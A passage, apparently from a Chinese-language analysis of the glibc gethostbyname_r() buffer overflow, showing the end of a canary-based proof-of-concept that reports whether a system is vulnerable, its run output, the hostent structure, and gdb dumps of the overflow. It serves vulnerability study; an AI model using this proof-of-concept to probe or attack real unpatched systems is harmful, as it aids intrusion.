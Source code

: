 ```c
  if (strcmp(temp.canary, CANARY) != 0) {
    puts("vulnerable");
    exit(EXIT_SUCCESS);
  }
  if (retval == ERANGE) {
    puts("not vulnerable");
    exit(EXIT_SUCCESS);
  }
  puts("should not happen");
  exit(EXIT_FAILURE);
}
```
```
$ file /lib/x86_64-linux-gnu/libc-2.15.so 
/lib/x86_64-linux-gnu/libc-2.15.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), BuildID[sha1]=0x7c4f51534761d69afd01ac03d3c9bc7ccd21f6c6, for GNU/Linux 2.6.24, stripped
$ gcc -g poc.c
$ ./a.out
vulnerable
```
很明显是存在漏洞的。简单解释一下 PoC，在栈上布置一个区域 temp，由 buffer 和 canary 组成，然后初始化一个 name，最后执行函数 gethostbyname_r()，正常情况下，当把 name+\*host\_addr+\*h\_addr\_ptrs+1 复制到 buffer 时，会正好覆盖缓冲区且没有溢出。然而，实际情况并不是这样。

函数 `gethostbyname_r()` 在 `include/netdb.h` 中定义如下：
```c
struct hostent {
    char  *h_name;            /* official name of host */
    char **h_aliases;         /* alias list */
    int    h_addrtype;        /* host address type */
    int    h_length;          /* length of address */
    char **h_addr_list;       /* list of addresses */
}
#define h_addr h_addr_list[0] /* for backward compatibility */

int gethostbyname_r(const char *name,
        struct hostent *ret, char *buf, size_t buflen,
        struct hostent **result, int *h_errnop);
```
- `name`：网页的 host 名称
- `ret`：成功时用于存储结果
- `buf`：临时缓冲区，存储过程中的各种信息
- `buflen`：缓冲区大小
- `result`：成功时指向 ret
- `h_errnop`：存储错误码

执行前：
```
gdb-peda$ x/6gx temp.buffer
0x601060 <temp>:	0x0000726566667562	0x0000000000000000  <-- buffer  <-- host_addr
0x601070 <temp+16>:	0x0000000000000000	0x0000000000000000              <-- h_addr_ptrs
0x601080 <temp+32>:	0x0000000000000000	0x0000000000000000              <-- hostname
gdb-peda$ x/20gx temp.canary-0x10
0x601450 <temp+1008>:	0x0000000000000000	0x0000000000000000
0x601460 <temp+1024>:	0x635f6568745f6e69	0x656e696d5f6c616f  <-- canary
0x601470 <temp+1040>:	0x0000000000000000	0x0000000000000000
```
执行后：
```
gdb-peda$ x/6gx temp.buffer
0x601060 <temp>:	0x0000000000000000	0x0000000000000000  <-- buffer  <-- host_addr
0x601070 <temp+16>:	0x0000000000601060	0x0000000000000000              <-- h_addr_ptrs
0x601080 <temp+32>:	0x0000000000000000	0x3030303030303030              <-- h_alias_ptr, hostname
gdb-peda$ x/6gx temp.canary-0x10
0x601450 <temp+1008>:	0x3030303030303030	0x3030303030303030
```